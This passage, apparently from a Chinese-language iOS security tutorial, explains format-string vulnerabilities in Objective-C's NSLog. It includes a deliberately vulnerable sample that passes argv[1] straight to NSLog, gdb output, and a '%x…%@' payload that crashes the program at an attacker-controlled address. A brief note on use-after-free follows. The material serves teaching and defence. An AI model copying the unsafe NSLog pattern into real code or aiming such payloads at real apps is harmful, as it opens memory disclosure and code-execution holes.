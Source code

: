 HTTP响应头部被记录到NSLog中触发了格式化字符串漏洞，导致栈内存dump到控制台日志中：

```

(gdb) r
Starting program: /private/var/root/fmtstrtest
objc[8008]: Object 0x11f0b0 of class NSURL autoreleased with no pool in place -just leaking - break on objc_autoreleaseNoPool() to debug
objc[8008]: Object 0x11e310 of class NSURLRequest autoreleased with no pool in place - just leaking - break on objc_autoreleaseNoPool() to debug
objc[8008]: Object 0x11f540 of class NSThread autoreleased with no pool in place
- just leaking - break on objc_autoreleaseNoPool() to debug
2012-02-29 17:02:36.304 fmtstrtest[8008:303] aaaa124a600782fe5b84411f0b00
Program exited normally. (gdb)

```

传统的格式化字符串漏洞可以利用“%n”完成，它允许攻击者在从栈中读取任意的内存地址并写入。但是这个格式说明符在Objective-C中并不适用。IOS格式化字符串漏洞可以通 过“%@”实现，它定义了一个Objective-C对象。因此，允许任意函数指针被调用。

下面的试例简单的把参数从argv[1]传 NSLog中：

```

int main(int argc, const char* argv[])
{
NSAutoreleasePool *pool =[[NSAutoreleasePool alloc] init]; 
NSString *n = [[NSString alloc] initWithCString:argv[1]]; 
NSLog(n);
[pool drain];
return 0;
}
向栈内存中压入大量的数据，可以看到取值过程中“%@”说明符如何产生问题：
(gdb) r 
bbbbbbbbbbbbbbbb%x%x%x%x%x%x%x%%x%x%x%x%x%x%x%%x%x%x%x%x%x
%x%%x%x%x%x%x%x%x%%x%x%
x%x%x%x%x%%x%x%x%x%x%x%x%%x%x%x%x%x%x%x%%x%x%x%x%x%x%x%
%x%x%x%x%x%x%x%x%x%x%@
Starting program: /private/var/root/fmtstrtest
bbbbbbbbbbbbbbbb%x%x%x%x%x%x%x%%x%x%x%x%x%x%x%%x%x%x%x%x%x
%x%%x%x%x%x%x%x%x%%x%x%
x%x%x%x%x%%x%x%x%x%x%x%x%%x%x%x%x%x%x%x%%x%x%x%x%x%x%x%
%x%x%x%x%x%x%x%x%x%x%@
Program received signal EXC_BAD_ACCESS, Could not access memory.
Reason: KERN_INVALID_ADDRESS at address: 0x62626262
0x320f8fb6 in ?? ()
(gdb)

```

幸好在大多数情况下 Objective-C用堆来存储对象，因此攻击并不容易。

* use-after-free

对象被释放后引用仍然存在，则可能导致对象的use-after-free漏洞。如果释放的内存被 重用，并且攻击者能够控制重用的内存，某些情况下就可能导致任意代码执行。
